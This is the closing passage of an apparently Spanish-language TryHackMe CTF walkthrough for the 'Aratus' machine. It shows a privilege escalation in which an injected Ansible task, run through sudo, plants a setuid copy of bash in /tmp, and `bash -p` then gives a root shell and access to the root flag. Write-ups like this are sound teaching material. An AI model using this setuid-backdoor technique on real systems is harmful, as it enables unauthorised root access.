 ```bash
[theodore@aratus ~]$ cat /tmp/exploit.sh
cp /bin/bash /tmp/bash ; chmod +s /tmp/bash
```
¡Y ahora podemos ejecutar con sudo el comando!
```bash
[theodore@aratus ~]$ sudo -u automation /opt/scripts/infra_as_code.sh

PLAY [Check status of the firewall] ****************************************************************

TASK [Gathering Facts] *****************************************************************************
ok: [10.10.170.245]

TASK [check firewalld] *****************************************************************************
ok: [10.10.170.245]

[...]

TASK [geerlingguy.apache : Ensure httpd certs are installed (RHEL 8 and later).] *******************
skipping: [10.10.170.245]

TASK [geerlingguy.apache : exploiting you bruh] ****************************************************
changed: [10.10.170.245]

[...]
```
En el fragmento anterior, ejecutamos `exploiting you bruh` con éxito, así que revisemos la carpeta `/tmp/` donde deberíamos tener nuestro nuevo binario `bash` con permisos `root`.
```bash
[theodore@aratus ~]$ ls -la /tmp
total 1892
drwxrwxrwt.  8 root     root        232 Mar 26 20:10 .
dr-xr-xr-x. 17 root     root        224 Mar 25 22:14 ..
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .ICE-unix
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .Test-unix
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .X11-unix
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .XIM-unix
drwxrwxrwt.  2 root     root          6 Jun  8  2021 .font-unix
-rwsr-sr-x.  1 root     root     964536 Mar 26 20:08 bash
-rw-rw-r--.  1 theodore theodore     38 Mar 26 20:09 exploit.sh
drwx------.  3 root     root         17 Mar 26 19:40 systemd-private-cdbd947aa2a64a4aa122319c880cbfa3-httpd.service-7CkbTf
-rw-------.  1 theodore theodore      0 Mar 26 19:57 tmp.Pov2h3UlaW
```
¡Vamos! ¡Tenemos el binario y el dueño es `root`! Entonces ahora podemos ejecutar `bash` con los permisos del propietario, con la opción `-p`.
```bash
[theodore@aratus tmp]$ ./bash -p
bash-4.2# id; whoami
uid=1001(theodore) gid=1001(theodore) euid=0(root) egid=0(root) groups=0(root),1001(theodore) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
root
bash-4.2# cat /root/root.txt
THM{[REDACTED]}
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!